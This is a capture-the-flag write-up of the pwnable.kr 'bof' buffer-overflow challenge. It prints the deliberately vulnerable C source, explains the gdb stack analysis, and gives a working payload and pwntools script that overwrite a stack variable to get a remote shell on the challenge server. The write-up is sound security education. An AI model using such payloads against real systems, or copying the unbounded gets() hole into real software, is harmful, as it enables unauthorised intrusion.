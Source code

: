 ﻿---
layout: post
title: pwnable.kr - bof
categories: pwn
tags: [linux, binary-exploitation,buffer-overflow, code-analysis, exploit-development, c, python]
description: My write-up for bof from pwnable.kr.
image: pwn/bof/0.png
---

<hr>
## Introduction 
<br> Hey guys it's been a long time since my [first pwn write-up](https://0xrick.github.io/pwn/fd/),  today I'll write about another challenge from [pwnable.kr](https://pwnable.kr) called bof. It was a simple easy buffer overflow challenge (You can also check [these](/categories/#binary-exploitation)), by overwriting a variable we can get a shell. I'll also write a small exploit with `pwntools` that spawns a shell automatically.
![](/images/pwn/bof/0.png)
<hr>
## Challenge Description 
```
Nana told me that buffer overflow is one of the most common software vulnerability. 
Is that true?

Download : http://pwnable.kr/bin/bof
Download : http://pwnable.kr/bin/bof.c

Running at : nc pwnable.kr 9000
```
<br> Pretty straightforward, we have the vulnerable binary, its source code and the port where it's running. 
![](/images/pwn/bof/1.png)
<hr>
## Code Analysis 
<br> Let's take a look at the code :
![](/images/pwn/bof/2.png)
```
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
	char overflowme[32];
	printf("overflow me : ");
	gets(overflowme);	// smash me!
	if(key == 0xcafebabe){
		system("/bin/sh");
	}
	else{
		printf("Nah..\n");
	}
}
int main(int argc, char* argv[]){
	func(0xdeadbeef);
	return 0;
}
```
<br> There are two functions, the main function and another function called `func()`
<br> `func()`:
```
void func(int key){
	char overflowme[32];
	printf("overflow me : ");
	gets(overflowme);	// smash me!
	if(key == 0xcafebabe){
		system("/bin/sh");
	}
	else{
		printf("Nah..\n");
	}
}
```
<br> Breakdown :
<br> The function takes a variable called `key`, it starts by creating a variable called `overflowme` and sets a buffer of 32 chars for it : `char overflowme[32];`
<br> Then it prints `overflow me :` (`printf("overflow me : ");`)  and waits for our input which will be saved in the variable `overflowme` (`gets(overflowme);`)
<br> After that there's an if statement that checks if the variable `key` is equal to `0xcafebabe` (`if(key == 0xcafebabe){`). If that's true it will spawn a shell (`system("/bin/sh");`), if `key` is equal to anything else it will print `Nah..` (`printf("Nah..\n");`)
<br>
<br> `main()` :
```
int main(int argc, char* argv[]){
	func(0xdeadbeef);
	return 0;
```
<br> Basically what the main function is doing is just calling the function `func()` giving `key` the value of `0xdeadbeef`
<br>
<br> So we need to make `key` equal to `0xcafebabe` instead of `0xdeadbeef` to make it spawn a shell. We control `overflowme` but we don't control `key`. If we can cause a buffer overflow we will be able to overwrite `key`, and obviously `overflowme` is vulnerable.
<br>
<hr>
## Examining the Binary, Exploitation
<br> I ran the program and tested it a couple of times. First one with a short input :
![](/images/pwn/bof/3.png)
<br> Second one with a longer input and it crashed:
![](/images/pwn/bof/4.png)
<br> Important thing to note here, we don't want to know the offset or where the program exactly crashes. This is because we don't need to overwrite `EIP`, we need to overwrite a variable's value and that's located on the stack. So giving the program a pattern and finding the offset won't help because we need to know where `0xdeadbeef` is located on the stack.
<br> It's time for `gdb`. I started `gdb` and created a break point at `main` (`break main`) then I started the program (`r`) : 
![](/images/pwn/bof/5.png)
<br> It stopped at the break point. We need to disassemble the function `func()` to get the address of the compare instruction that compares between the value of `key` and `0xcafebabe` to set another break point there and look at the stack.
`disas func`
![](/images/pwn/bof/6.png)
<br> We can see the [`cmpl` (Compare Logical)](https://www.ibm.com/support/knowledgecenter/en/ssw_aix_72/com.ibm.aix.alangref/idalangref_comp_logical_inst.htm) instruction at `0x0000654`, Lets set a break point exactly before it :
`break *0x80000654`
![](/images/pwn/bof/7.png)
<br> Now let's continue the execution (`c`) and wait for our break point.
![](/images/pwn/bof/8.png)
<br> I gave it a short input because we don't need to crash it and overwrite stuff on the stack, we just need to look at the stack during a normal execution to locate `0xdeadbeef`.
<br> After hitting the second break point let's look at the stack :
`x/50wx $esp`
![](/images/pwn/bof/9.png)
<br> `0xdeadbeef` appears at the first row in front of `0xbffff2e0` and our input starts to appear at the last row in front of `0xbffff2a0`. We can locate the distance between our input and `0xdeadbeef` easily, each hex value represents 4 chars (`0x41414141 == AAAA`) and we have exactly 13 of them before `0xdeadbeef` (`1 + 4 + 4 + 4`). 
![](/images/pwn/bof/10.png)
<br> We need to give the program exactly 52 chars then `0xcafebabe` and eventually `0xdeadbeef` will be overwritten. 
<br> Let's try it, I used python to print the payload in a file then I piped that file to the `nc` connection :
`python -c "print 'A' * 52 + '\xbe\xba\xfe\xca'" > ./payload`
<br>
<br>
`(cat payload && cat) | nc pwnable.kr 9000`
![](/images/pwn/bof/11.png)
<br> Pwned !
<br>
<hr>
## Writing an Exploit with pwntools
<br> One of the cool things about `pwntools` is the simplicity, combined with the simplicity of this exploit will make it just 4 lines of code. 
<br> First thing we need to do is to import `pwntools` : `from pwn import *`
<br> We need to store our payload in a variable : `payload = 'A' * 52 + '\xbe\xba\xfe\xca'`
<br> Then we need to initiate the connection and assign a variable for it : `shell = remote('pwnable.kr' ,9000)`
<br> After that we will send the payload : `shell.send(payload)`
<br> And finally we can interact with our shell : `shell.interactive()`
![](/images/pwn/bof/12.png)
```
#!/usr/bin/python
from pwn import *

payload = 'A' * 52 + '\xbe\xba\xfe\xca'
shell = remote('pwnable.kr',9000)
shell.send(payload)
shell.interactive()
```
![](/images/pwn/bof/13.png)
<br> Pwned again !
<br> That's it , Feedback is appreciated !
<br> Don't forget to read the [other write-ups](/categories) , Tweet about the write-up if you liked it , follow on twitter [@Ahm3d_H3sham](https://twitter.com/Ahm3d_H3sham)
<br> Thanks for reading.
<br> Previous pwn write-up : [pwnable.kr - fd](/pwn/fd/)
<br> Next pwn write-up : [pwnable.kr - collision](/pwn/collision/)
<br>
<hr>
